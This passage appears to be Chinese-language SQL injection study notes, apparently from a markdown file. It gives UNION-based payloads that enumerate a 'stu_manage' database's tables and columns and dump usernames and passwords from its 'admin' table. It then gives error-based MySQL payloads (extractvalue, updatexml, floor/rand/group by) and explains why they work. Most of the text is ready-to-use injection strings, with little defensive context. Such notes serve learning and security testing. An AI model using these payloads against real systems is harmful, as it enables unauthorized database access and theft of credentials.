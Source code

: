   //获取指定表
  -1'union select table_schema,table_name from information_schema.tables where table_schema='stu_manage' and table_name='admin' --+
  
  //获取表的字段信息
  -1'union select table_name,column_name from information_schema.columns where table_schema='stu_manage' and table_name='admin' --+
  
  //获取字段内容
  -1'union select 1,concat_ws("_",username,password) from admin --+
  ```

### 报错注入

- 概念:利用数据库的某些机制,人为的制造出错误条件,使得查询结果能够出现在报错信息中,想办法让错误信息中可以显示数据库的内容

- 基本手法

- ```sql
  //extractvalue(arg1,arg2)-->arg1:xml文档,arg2:xpath语句,至少接收两个参数
  //mysql5.1以上
  
  1'and extractvalue(1,concat(0x3a,user(),0x3a) --+
  
  //在报错信息中查询出
  1'and extractvalue(1,arg2) --+
  arg2=concat(0x3a,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x3a)
  ```

- ```sql
  //update(arg1,arg2,arg3),arg1为xml文档,arg2为指定位置的xpath字符串,arg3为string格式的新值
  
  1'and updatexml(1,concat(0x3a,(select user()),0x3a),1) --+
  
  1'and updatexml(1,arg2,1)--+
  arg2=concat(0x3a,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x3a)
  ```

- ```
  //floor,返回向下取整的整数,只返回arg1的整数部分
  
  1'and (select 1 from (select count(*),concat(user(),floor(rand(0)*2))x from information_schema.tables group by x)y) --+
  
  1'and (select count(*),concat(user(),floor(rand(0)*2))x from information_schema.tables group by x) --+
  ```

- `floor()`报错准确的说是`floor`,`count`,`group by`冲突报错,`count(*)`,`rand()`,`group by`三者缺一不可

- ```sql
  1'and (select 1 from (select count(*),concat(database(),floor(rand(0)*2))x from information_schema.tables group by x)a)
  ```

- ```SQL
  floor():向下取整
  rand():在0-1产生一个随机数
  floor(rand()*2):对生成的0-2直接按的随机数进行向下取整,2条记录可能报错
  floor(rand(0)*2):记录需要为3条以上,且三条以上必报错
  count(*):统计记录条数,包括null值
  group by:对数据进行分组,存在则count(*)+1,不存在则在虚拟表中插入一条数据	
  ```
